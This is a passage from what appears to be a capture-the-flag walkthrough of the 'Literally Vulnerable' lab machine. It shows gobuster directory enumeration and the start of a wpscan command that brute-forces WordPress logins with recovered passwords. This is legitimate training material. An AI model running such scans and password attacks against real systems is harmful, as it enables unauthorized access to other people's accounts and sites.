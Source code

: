 It seems like username - Doe, and a few possible passwords have been retrieved. 


### Web Port Enumeration

#### Port 80 Enumeration

Nothing interesting was found on port 80.

#### Port 65535 Enumeration (gobuster, Browser, wpscan)

##### gobuster

```
lifesfun:/opt/wpseku# gobuster dir -u http://literally.vulnerable:65535/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://literally.vulnerable:65535/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/08 23:59:55 Starting gobuster
===============================================================
/phpcms (Status: 301)
===============================================================
2019/12/09 00:00:14 Finished
===============================================================
```

Through gobuster an interesting directory /phpcms was found.

##### Browser

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/LiterallyVulnerable/Images/67c4b2373a5684b4d6977b9b10050353.png?raw=true)

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/LiterallyVulnerable/Images/9880da229e8e3a3cb9bea7bf10d4d195.png?raw=true)

Looks like a WordPress website with a password protected post. Let’s see if we
can find some usernames and use passwords provided in FTP server to get into
WordPress.

##### wpscan

```
lifesfun:~/vulnhub/LiteraryVulnerable# wpscan --url http://literally.vulnerable:65535/phpcms/ -t 20 --passwords passwords
_______________________________________________________________
        __          _______   _____
        \ \        / /  __ \ / ____|
         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team
                       Version 3.7.3
       Sponsored by Automattic - https://automattic.com/
      @_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
```